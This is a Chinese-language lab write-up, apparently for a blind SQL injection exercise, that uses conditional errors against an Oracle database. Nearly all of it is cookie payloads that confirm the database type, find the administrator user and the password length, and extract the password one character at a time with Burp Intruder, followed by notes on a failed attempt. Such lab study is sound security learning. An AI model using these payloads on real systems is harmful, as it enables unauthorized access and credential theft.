 确定了是Oracle数据库：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT 'a' FROM dual)='a-- #返回200
TrackingId=LKhHSsm70t3BWS33' and (SELECT 'a')='a-- #返回500
```

判断是否存在语法错误的两种方法,判断结果为存在：

```SQL
#因为是Oracle数据库，所以必须1/0时有to_char()函数女，且要有 from dual
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a--  #返回200
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a--   #返回500
```

```SQL
TrackingId=xyz'' #正确
TrackingId=xyz' #错误
```

确定是否有users表和user=administrator的用户：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM users where username='administrator')='a-- 
#返回200，说明有
```

确定密码位数，为20位：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when LENGTH(password)>§1§ THEN TO_CHAR(1/0) ELSE 'a' END FROM users where username='administrator')='a--
```

确定密码：

```SQL
#爆失败
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when (1=2) THEN TO_CHAR(1/0) ELSE SUBSTR(PASSWORD,§1§,1) END FROM users where username='administrator')='§a§--
#爆成功
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

==汲取经验：==

> 爆失败是因为：
>
> **`CASE..WHEN..THEN..ELSE`逻辑问题**
>
> > 语法正确和语法错误的两种情况并没有在Intruder中都用到(这样就会使得全都返回200，bp中就看不出来了所以也谨记，**bp密码爆破的原理是返回的状态不一样**)。即**并没有在所有情况的爆破中出现`THEN...ELSE...`两边的情况。**
> >
> > 即**我们的密码判断是否是某个字符的表达式应该在`SELECT CASE WHEN`后面**
